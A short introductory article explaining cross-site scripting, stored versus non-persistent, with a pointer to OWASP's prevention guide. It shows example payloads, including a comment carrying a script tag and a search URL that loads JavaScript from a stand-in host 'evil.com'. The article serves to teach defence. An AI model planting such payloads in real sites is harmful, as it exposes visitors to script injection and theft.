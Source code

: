 ```yaml
---
title: What is XSS injection?
description: An intro to XSS injection, and tips on mitigating such attacks.
date_created: 2014-03-28
---
```


XSS injection (XSS stands for Cross-Site Scripting) works a bit like SQL injection: improperly sanitized user-submitted data is used to alter the application's functionality. Instead of altering SQL queries, XSS injection alters HTML and JavaScript.

For example, a hacker could leave the following comment on a vulnerable site:

```html
<script>alert('Your site was hacked!');</script>
```

When the site displays the comments, it also serves the hacker's malicious code:

```html
<div class='comment'>
 John Johnson said:
 What a great site! Thank you for this article!
</div>
<div class='comment'>
 CleverHacker said:
 <script>alert('Your site was hacked!');</script>
</div>
```

In the example above, all sites visitors would see a popup that says "Your site was hacked". Far more potent attacks have been used to deface important websites.

It is called **persistent** or **stored XSS** when the server stores the malicious code and serves it to the users as in our example above. When the attack is performed by injecting the code in invalid URL parameters, it is called **non-persistent XSS**.

The following example shows how a non-persistent XSS attack is performed. In this example, Bob sends Alice the following URL:

```
http://news.org/search/?q=<script src='evil.com/hack.js'></script>
```

Since the page displays the search query, the `<script>` tag will be executed and the malicious JavaScript file will be loaded:

```html
<h1>
 Showing results for query <script src='evil.com/hack.js'></script>
</h1>
```

XSS injection can be preventing by properly sanitizing any user-provided data. OWASP has [an excellent guide](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet) on securing your applications against XSS.

